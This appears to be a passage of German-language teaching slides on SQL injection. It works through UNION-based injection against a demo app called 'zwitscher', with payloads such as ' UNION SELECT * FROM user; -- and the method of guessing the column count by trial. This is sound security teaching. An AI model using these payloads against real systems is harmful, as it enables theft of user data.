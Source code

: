 ```php
$sql = "SELECT *
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT * FROM user; -- ';
```

[Code ausführen](../zwitscher/?search=%27+UNION+SELECT+*+FROM+user%3B+--+)

<div style="text-align: left"><i>"SQL-Fehler: Die benutzten SELECT-Aussagen haben eine unterschiedliche Anzahl von Spalten."</i></div>

<div style="text-align: left">UNION benötigt die selbe Anzahl von Feldern in beiden Ergebnis-Tabellen.</div>

---

## Und jetzt?

- Wie viele Spalten hat das Ergebnis der ersten Abfrage?
- Keine Ahnung :(

<br />
<br />
<br />

### Kommen wir nicht mehr weiter?   

---

## Was sollen wir tun? Durchprobieren!

- "1" gibt eine Tabelle mit einer Zeile und einem Feld, das '1' enthält, zurück
- "1, 2" gibt eine Tabelle mit einer Zeile und zwei Feldern, die '1' und '2' enthalten, zurück
- "1, 2, 3" gibt eine Tabelle mit ... zurück
- ...
<br />
<br />

**Ansatz: Ausprobieren... Inkrementieren, bis es keinen Fehler mehr gibt**

--

## Was sollen wir tun? Durchprobieren!

Eingabe: <span style="color:crimson">#dog' UNION SELECT 1; -- </span>

```php
$sql = "SELECT *
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT 1; -- ';
```

[Code ausführen](../zwitscher/?search=%27+UNION+SELECT+1%3B+--+)

:(
